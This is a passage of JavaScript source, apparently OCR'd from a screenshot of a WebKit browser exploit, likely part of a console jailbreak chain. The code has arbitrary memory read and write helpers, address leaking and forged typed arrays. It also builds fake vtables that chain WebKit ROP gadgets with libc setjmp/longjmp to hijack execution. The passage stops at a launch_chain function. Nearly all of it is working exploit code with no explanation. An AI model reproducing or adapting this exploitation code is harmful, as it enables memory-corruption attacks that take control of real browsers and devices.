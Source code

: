                 }
                return address.add32(0x6 + offset);
            }    
            function malloc(sz) {
                var backing = new Uint8Array(0x10000 + sz);
                window.nogc.push(backing);
                var ptr = p.read8(p.leakval(backing).add32(0x10));
                ptr.backing = backing;
                return ptr;
            }    
            function malloc32(sz) {
                var backing = new Uint8Array(0x10000 + sz * 4);
                window.nogc.push(backing);
                var ptr = p.read8(p.leakval(backing).add32(0x10));
                ptr.backing = new Uint32Array(backing.buffer);
                return ptr;
            }    
            function array_from_address(addr, size) {
                var og_array = new Uint32Array(0x1000);
                var og_array_i = p.leakval(og_array).add32(0x10);    
                p.write8(og_array_i, addr);
                p.write4(og_array_i.add32(0x8), size);
                p.write4(og_array_i.add32(0xC), 0x1);    
                nogc.push(og_array);
                return og_array;
            }    
            function stringify(str) {
                var bufView = new Uint8Array(str.length + 1);
                for (var i = 0; i < str.length; i++) {
                    bufView[i] = str.charCodeAt(i) & 0xFF;
                }
                window.nogc.push(bufView);
                return p.read8(p.leakval(bufView).add32(0x10));
            }    
            function readstr(addr) {
                var str = "";
                for (var i = 0;; i++) {
                    var c = p.read1(addr.add32(i));
                    if (c == 0x0) {
                        break;
                    }
                    str += String.fromCharCode(c);    
                }
                return str;
            }    
            var fakeVtable_setjmp = p.malloc32(0x200);
            var fakeVtable_longjmp = p.malloc32(0x200);
            var original_context = p.malloc32(0x40);
            var modified_context = p.malloc32(0x40);    
            p.write8(fakeVtable_setjmp.add32(0x0), fakeVtable_setjmp);
            p.write8(fakeVtable_setjmp.add32(0xA8), webKitBase.add32(OFFSET_WK_setjmp_gadget_two)); // mov rdi, qword ptr [rdi + 0x10] ; jmp qword ptr [rax + 8]
            p.write8(fakeVtable_setjmp.add32(0x10), original_context);
            p.write8(fakeVtable_setjmp.add32(0x8), libSceLibcInternalBase.add32(OFFSET_libcint_setjmp));
            p.write8(fakeVtable_setjmp.add32(0x1C8), webKitBase.add32(OFFSET_WK_setjmp_gadget_one)); // mov rax, qword ptr [rcx]; mov rdi, rcx; jmp qword ptr [rax + 0xA8]    
            p.write8(fakeVtable_longjmp.add32(0x0), fakeVtable_longjmp);
            p.write8(fakeVtable_longjmp.add32(0xA8), webKitBase.add32(OFFSET_WK_longjmp_gadget_two)); // mov rdi, qword ptr [rdi + 0x10] ; jmp qword ptr [rax + 8]
            p.write8(fakeVtable_longjmp.add32(0x10), modified_context);
            p.write8(fakeVtable_longjmp.add32(0x8), libSceLibcInternalBase.add32(OFFSET_libcint_longjmp));
            p.write8(fakeVtable_longjmp.add32(0x1C8), webKitBase.add32(OFFSET_WK_longjmp_gadget_one)); // mov rax, qword ptr [rcx]; mov rdi, rcx; jmp qword ptr [rax + 0xA8]    
            function launch_chain(chain) {